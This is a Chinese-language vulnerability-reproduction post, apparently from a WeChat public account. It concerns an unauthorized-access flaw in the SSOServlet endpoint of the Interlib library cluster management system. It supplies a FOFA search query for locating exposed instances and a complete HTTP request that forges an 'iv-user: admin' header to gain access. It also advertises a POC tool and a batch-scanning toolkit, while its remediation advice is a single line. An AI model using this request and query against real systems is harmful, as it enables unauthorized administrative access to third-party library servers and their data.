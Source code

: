 #  图创图书馆集群管理系统SSOServlet接口存在未授权访问漏洞   
南风徐来  南风漏洞复现文库   2024-05-06 22:56  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 图创图书馆集群管理系统简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
图书馆集群管理系统Interlib是新一代的图书馆自动化系统  
## 2.漏洞描述  
  
图书馆集群管理系统Interlib是新一代的图书馆自动化系统,采用开放的多层结构体系,基于Internet实现传统业务管理与海量数字资源管理的结合。图创图书馆集群管理系统SSOServlet接口存在未授权访问漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
图创图书馆集群管理系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDl5kVRAoQ3KialvtuamEziaJvpkKia4AQf9aeyT8rgFqHd6HK2cRDwFBbQg/640?wx_fmt=jpeg&from=appmsg "null")  
  
图创图书馆集群管理系统SSOServlet接口存在未授权访问漏洞  
## 4.fofa查询语句  
  
body="interlib"  
## 5.漏洞复现  
  
漏洞链接：http://xxx.xxx.xxx.xxx/interlib/common/SSOServlet  
  
漏洞数据包：  
```
GET /interlib/common/SSOServlet HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: */*
Connection: Keep-Alive
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
iv-user: admin
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlXoX1OdgdkWyPxwnBOaTHCQ0uwicZicQ73jUf5bCiarLHHMbGDbcPnmq0A/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现132 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlKoTaM13PDT72OJcNUPG47sGndvtaq2Ne0u9ZOWLTiah7LYib7muGk4ww/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlhhicwXxfBichsicPIOmDKiaSFpSEb2VVFkGYRwGT22H259jic7zcgDWQqdg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlqib6QC8F3ZecJEjnVAdXfU0qScicHyXcW3xMiaTDF2GLRXzyvFaW9IReg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlYJYtWBzibmrnyrj8zIX5iamiaicibZroibal7XdJKzNY3iadsacPFibp64F30A/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlWNUukv525HUEl2VlibFicqbaptr9jlQ3GkFNItnHlzsKlib6cswTFRppQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDle7z227KlYesibGXDdogkic4aVhmeLLOXIa4YXPznBPHJrPVFYx5zewPA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
联系厂商获取升级补丁修复漏洞  
## 8.往期回顾  
  
  
[泛微e-office系统UserSelect接口存在未授权访问漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486348&idx=1&sn=d432918c3ca047ca2d86b05d23cbe883&chksm=974b868ba03c0f9d74f2553ceed392dff8d314056dccf798398e00dfd4fce3e068dfeb49ce4e&scene=21#wechat_redirect)  
  
  
[时空智友企业流程化管控系统formservice存在SQL注入漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486294&idx=2&sn=b90cb034d55c1f6a53708dc904f5c00c&chksm=974b8651a03c0f4756f06ef278357fcac5fd852c5cfd093957d18c5222194fa2861dd26a566e&scene=21#wechat_redirect)  
  
  
